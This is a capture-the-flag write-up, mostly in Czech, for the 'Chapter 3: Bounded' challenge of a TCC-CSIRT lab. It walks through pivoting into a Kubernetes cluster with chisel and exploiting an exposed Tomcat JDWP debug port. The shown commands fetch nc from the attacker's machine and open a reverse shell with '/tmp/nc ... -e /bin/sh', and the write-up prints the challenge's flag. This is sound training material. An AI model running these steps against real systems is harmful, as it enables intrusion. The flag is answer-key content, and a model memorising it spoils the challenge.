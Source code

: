 # Chapter 3: Bounded (5)

## Zadání

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

* The entry point to LORE is at <http://intro.lore.tcc>.

See you in the next incident!

## Nápovědy (Hints)

* Be sure you enter flag for correct chapter.
* In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.
* All systems related to Chapter 3 restarts on failed healthcheck (5mins).

## Řešení

Webová stránka ze zadání obsahuje pouze odkazy na 4 úlohy ve skupině LORE.

Webová stránka pro tuto úlohu je <http://jgames.lore.tcc/> na které běží [tictactoe](https://github.com/arringtonm/tictactoe.git). S drobnou úpravou v `index.html`.

```diff
      DESERT WARFARE<br>
      AIR-TO-GROUND ACTIONS<br>
-      THEATERWIDE TACTICAL WARFARE<br>
+      KUBERNETES TACTICAL ENGAGEMENT<br>
      THEATERWIDE BIOTOXIC AND CHEMICAL WARFARE<br><br>
      GLOBAL THERMONUCLEAR WAR<br>
```

Začneme skenováním portů

`nmap jgames.lore.tcc`

```text
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

Rozdíl v `index.html` nám dává nápovědu, že stroj s webovou stránkou je součástí Kubernetes a proto dále použijeme reverse shell na PC pimpam z úlohy [Chapter 2: Origins](../16_Chapter1_Origins/README.md).

Na lokální počítač si stáhneme staticky přeložený [nmap](https://github.com/ernw/static-toolbox/releases/tag/nmap-v7.94SVN) a spustíme web server

`python -m http.server 80`.

Na PC pimpam si nmap stáhneme

```text
cd /tmp
curl http://10.200.0.24/nmap-7.94SVN-x86_64-portable.tar.gz -O
tar axf nmap-7.94SVN-x86_64-portable.tar.gz
```

Lokální IP adresu pimpam si zjistíme pomocí `ip addr`, je `192.168.73.124`.

Proskenujeme rozsah `192.168.73.*`

`/tmp/nmap -sn 192.168.73.*`

```text
Nmap scan report for 192.168.73.64
Nmap scan report for 192-168-73-102.intro-web.intro.svc.cluster.local (192.168.73.102)
Nmap scan report for 192-168-73-105.jgames-debug.jgames.svc.cluster.local (192.168.73.105)
Nmap scan report for 192-168-73-112.calico-kube-controllers-metrics.calico-system.svc.cluster.local (192.168.73.112)
Nmap scan report for 192-168-73-114.kube-dns.kube-system.svc.cluster.local (192.168.73.114)
Nmap scan report for 192-168-73-115.ingress-nginx-controller.ingress-nginx.svc.cluster.local (192.168.73.115)
Nmap scan report for 192-168-73-117.webhook-service.metallb-system.svc.cluster.local (192.168.73.117)
Nmap scan report for 192.168.73.118
Nmap scan report for 192-168-73-120.sam-web.sam-operator.svc.cluster.local (192.168.73.120)
Nmap scan report for 192-168-73-121.kube-dns.kube-system.svc.cluster.local (192.168.73.121)
Nmap scan report for 192-168-73-122.cgit-web.cgit.svc.cluster.local (192.168.73.122)
Nmap scan report for 192-168-73-123.whoami-service.default.svc.cluster.local (192.168.73.123)
Nmap scan report for pimpam-9bd6b669c-f5hff (192.168.73.124)
```

Server hostující jgames má IP adresu `192.168.73.105`. Zjistíme otevřené porty

`./nmap 192.168.73.105 -p-`

```text
PORT     STATE SERVICE
5005/tcp open  unknown
8080/tcp open  http-alt
```

Na serveru jako server běží Apache Tomcat, který port 5005 používá pro ladění aplikace (JDWP).

Abychom mohli používat nástroje na vlastním stroji použijeme tzv. Pivoting (tunelování) prostřednictvím SW chisel, který je na PC pimpam předinstalovaný v `/usr/local/sbin` a pro nástroje nepodporující SOCKS5 proxy použijeme proxychains. Viz <https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy> a <https://ap3x.github.io/posts/pivoting-with-chisel/>.

Další možností je použí [ligolo-ng](https://github.com/nicocha30/ligolo-ng), které má více možností a není potřeba používat proxychain, ale muselo by se na server nahrát.

na vlastním PC spustíme

`chisel server -p 8080 --reverse`

```text
2024/10/16 20:35:15 server: Reverse tunnelling enabled
2024/10/16 20:35:15 server: Fingerprint 40wr8Aloqza9ONP8nQfJ5ma0f29PYJvt8e8dF8ibm4c=
2024/10/16 20:35:15 server: Listening on http://0.0.0.0:8080
```

Na PC pimpam spustíme

`chisel client 10.200.0.24:8080 R:socks`

```text
2024/10/16 18:35:28 client: Connecting to ws://10.200.0.24:8080
2024/10/16 18:35:28 client: Connected (Latency 6.877538ms)
```

nastavíme `/etc/proxychains4.conf`

```text
[ProxyList]
socks5  127.0.0.1 1080
```

Pro spouštění vlastního kódu použijeme [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier).

Na PC jgames není nainstalovaný `nc`, tak si ho tam stáhneme z vlastního pc. Jako breakpoint trigger se použije `java.lang.String.indexOf`.

```text
proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c 'curl http://10.200.0.24/nc -o /tmp/nc'

proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c 'chmod +x /tmp/nc'
```

Na vlastním PC spustíme poslouchání na portu 4445.

`nc -vlnp 4445`

a vyvoláme reverse shell

`proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c '/tmp/nc 10.200.0.24 4445 -e /bin/sh'`

Dojde ke spojení na náš počítač, příkazem `set` si zobrazíme proměnné prostředí, ve kterých se skrývá hledaný FLAG.

Bohužel služba JDWP byla často nedostupná a proto byla dodatečně doplněna její kontrola a případný restart serveru. Pokud se jeden uživatel připojí k JDWP rozhraní, další připojení až není povoleno.

## Flag

`FLAG{ijBw-pfxY-Scgo-GJKO}`
